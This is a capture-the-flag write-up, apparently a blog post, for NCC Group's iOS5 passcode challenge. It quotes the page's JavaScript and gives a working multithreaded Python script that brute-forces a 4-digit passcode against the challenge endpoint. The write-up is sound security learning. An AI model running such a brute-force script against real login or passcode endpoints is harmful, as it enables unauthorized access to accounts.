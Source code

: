 ```yaml
---
layout: post
title: "NCC Ninja - iOS5"
date: 2019-01-01
permalink: ncc-ninja-1
tags: hacking
---
```


> I recently discovered NCC Group's ["Are you a ninja" challenges](https://areyouan.ncc.ninja/challenges/).
> This is the first challenge on the site. I hope to complete them all and make a series out of it.

![chall]({{site.url}}/assets/resources-ncc/chall.png)

In this challenge they start us off easy. My first instinct was to poke around the javascript source, specifically in a file called `iOS.js`.

{% highlight javascript %}
function checkPasscode(passcode) {
$.post("", {
    passcode: enteredCode
  }, function(result) {
    var res = result;
    if (res == "Try Again") {
      console.log("wrong passcode");$(".lock-status").effect("shake");
// need if statement for different IOS versions
if ($(".keys").length) {
        // make h.box go red$(".header-msg").css('background-color', 'red');
// say wrong passcode
$('input[type="password"]').each(function() {$(this).val("");
});
setTimeout(function(){ $(".header-msg").css('background-color',''); },1500)
      } else {$('input[type="radio"]').each(function() {
$(this).effect("shake");$(this).prop("checked", false);
});
}

      enteredCode = "";
    } else {
      // correctly entered passcode
      $(".unlockscreen").hide();
      $(".unlockedscreen").html(result);
      $(".unlockedscreen").fadeIn();
    }

});
{% endhighlight %}

From looking at the source, this codes POSTs with the provided passcode (passed into the function) to some API, and the server (presumably) returns the flag when the right passcode is entered. Just changing the `res` in an HTTP proxy (like Burp Suite), did trick the client-side code into thinking
we received a valid response, but obviously didn't print the flag.

I opened up the network tab of chrome to take a peek at the response. With the 10000/hr limit on requests, it seemed
pretty obvious that this first challenge was a bruteforce one. With that in mind, I wanted to do something a little more interesting than my normal
brute script. I decided to multithread the script. This script spawns 20 threads, each in charge of testing 500 passcodes.

![ratelimit]({{site.url}}/assets/resources-ncc/ratelimit.png)

{% highlight python %}
import requests
import threading
import logging
import sys

URL = "https://challenges.ncc.ninja/<ID>/"
headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"X-Requested-With": "XMLHTTPRequest"}

logging.basicConfig(
filename='ios5.log',
level=logging.DEBUG,
format='[%(levelname)s](<%(threadName)-10s>) %(message)s',
)

def worker(start, end):
logging.debug(str(start))
logging.debug(str(end))
for i in range(start, end):
data = {"passcode": str(i).zfill(4)}
logging.debug(str(i).zfill(4))
r = requests.post(URL, data=data, headers=headers)
logging.debug(r.status_code)
logging.debug(r.text)
if r.text != "Try Again":
logging.info("[-] The passcode is: " + str(i).zfill(4))
logging.debug("===")
logging.debug(r.text)
logging.debug(r.status_code)
logging.debug(str(i).zfill(4))
logging.debug("===")

# 20 chunks of 500

threads = []
for i in range(0, 20):
print("Starting thread"+str(i))
start = 500*i
end = ((500*i)+500)-1
t = threading.Thread(name=str(start)+"-"+str(end),
target=worker, args=(start, end))
threads.append(t)
t.start()
{% endhighlight %}

Letting the script run for a while, we eventually end up with a valid passcode, and the flag logged into our output file. We
can enter the passcode ourselves too.

![ios-done]({{site.url}}/assets/resources-ncc/ios5-complete.png)
